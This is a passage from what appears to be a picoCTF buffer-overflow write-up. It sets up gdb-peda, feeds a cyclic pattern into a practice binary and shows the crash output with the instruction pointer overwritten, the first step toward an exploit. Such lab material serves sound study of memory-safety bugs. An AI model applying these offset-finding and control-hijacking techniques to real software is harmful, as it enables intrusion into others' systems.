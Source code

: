 ## 🔎 Debugging

Let's fire up `gdb` (**G**nu project **D**e**B**ugger)

> Note that for this writeup we will be using gdb-peda a **P**ython **E**xploit **D**evelopment **A**ssistance for gdb
> Setup with:
> 
> git clone https://github.com/longld/peda.git ~/peda  
   echo "source ~/peda/peda.py" >> ~/.gdbinit


```bash
$ gdb -q vuln
Reading symbols from vuln...
(No debugging symbols found in vuln)
gdb-peda$
```


Now we are creating a string longer than the buffers size (32) to overflow the program.

```bash
gdb-peda$ pattern create 100 pattern.txt
Writing pattern of 100 chars to filename "pattern.txt"
```

And use it as an input for the application

```bash
gdb-peda$ r < pattern.txt
Starting program: /home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/vuln < pattern.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x41414641

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x61414145 ('EAAa')
ECX: 0x0 
EDX: 0xf7fc2540 (0xf7fc2540)
ESI: 0x8049350 (<__libc_csu_init>:      endbr32)
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffcf10 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffcf10 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffcf14 ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffcf18 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffcf1c ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffcf20 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffcf24 ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffcf28 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0028| 0xffffcf2c ("AA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
```
